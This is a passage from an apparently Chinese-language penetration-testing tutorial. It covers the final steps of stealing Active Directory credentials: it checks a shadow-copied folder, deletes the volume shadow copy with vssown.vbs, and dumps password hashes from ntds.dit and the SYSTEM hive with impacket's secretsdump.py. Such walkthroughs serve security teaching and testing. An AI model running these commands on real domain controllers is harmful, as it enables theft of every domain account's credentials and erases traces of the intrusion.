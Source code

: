 Step 5:查看拷贝的文件

`dir c:\vssown\`

[![image.png](assets/1698894155-862d41e9e9369fca70a085b5340841a0.png)](https://storage.tttang.com/media/attachment/2022/09/30/8e94a71c-cdd4-4a19-b26a-7409855f7f8b.png)

Step 6：删除影卷拷贝

cscript vssown.vbs /delete {54ECD66A-570C-4489-956F-9B83E4C8B1B9}

[![image.png](assets/1698894155-29c3437681d8ee512b1e83e3e9d7209b.png)](https://storage.tttang.com/media/attachment/2022/09/30/5abe25ed-4b4c-4a75-b4c7-2f99a40d71c4.png)

Step 7：之后使用 impacket 导出 Hash

./secretsdump.py -system /root/vssown/SYSTEM -ntds /root/vssown/ntds.dit LOCAL

[![image.png](assets/1698894155-c7c518db40f45c97e9f907a26102e0a1.png)](https://storage.tttang.com/media/attachment/2022/09/30/da8cfd94-491b-4633-b327-9392a2c535f8.png)
